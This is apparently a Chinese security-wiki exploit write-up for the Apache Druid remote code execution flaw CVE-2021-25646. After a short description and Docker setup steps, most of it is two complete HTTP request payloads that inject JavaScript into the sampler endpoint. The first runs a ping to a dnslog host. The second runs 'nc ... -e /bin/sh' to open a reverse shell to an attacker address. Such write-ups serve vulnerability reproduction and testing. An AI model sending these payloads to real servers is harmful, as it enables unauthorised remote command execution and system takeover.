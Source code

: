 ```yaml
---
title: Apache Druid 远程代码执行漏洞 CVE-2021-25646
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web服务器漏洞
 - Apache
---
```


# Apache Druid 远程代码执行漏洞 CVE-2021-25646

## 漏洞描述

Apache Druid 是用Java编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。
Apache Druid 默认情况下缺乏授权认证，攻击者可以发送特制请求，利用Druid服务器上进程的特权执行任意代码。
Apache Druid包括执行用户提供的JavaScript的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在Druid 0.20.0及更低版本中，经过身份验证的用户发送恶意请求，利用Apache Druid漏洞可以执行任意代码

## 漏洞影响

> [!NOTE]
>
> Apache Druid < 0.20.1

## 环境搭建

这里使用Docker来搭建环境

![](/img/20210924013801119696.png)

Docker下载链接: https://github.com/apache/druid/archive/druid-0.20.0.zip

下载之后进入目录 **distribution\docker**

执行命令编译 **docker-compose up -d**

![](/img/20210924013801427805.png)

访问 http://xxx.xxx.xxx.xxx:8888 正常就行了

![](/img/20210924013802846475.png)

## 漏洞复现

漏洞原理: https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw

POC请求包

```json
POST /druid/indexer/v1/sampler HTTP/1.1
Host: xxx.xxx.xxx.xxx​:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Content-Length: 995
Connection: close


{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('ping xxxxx.dnslog.cn')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
```

![](/img/20210924013803018966.png)

> [!NOTE]
>
> 注意请求中这个位置改为你的dnslog平台地址
>
> java.lang.Runtime.getRuntime().exec('ping -c 4 xxxxx.dnslog.cn')

发送请求即可命令执行

![](/img/20210924013803306141.png)

> [!NOTE]
>
> 看了下可能大部分都是docker搭建，而里面大部分命令是不存在的，但是发现docker里面居然默认是有 NC 命令的，那我们就可以用nc反弹一个shell了

反弹shell请求包

```json
POST /druid/indexer/v1/sampler HTTP/1.1
Host: xxx.xxx.xxx.xxx​:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Content-Length: 1008
Connection: close


{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec(' nc xxx.xxx.xxx.xxx 9999 -e /bin/sh')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
```

发送请求包就可以得到一个交互式shell了

![](/img/20210924013803603083.png)



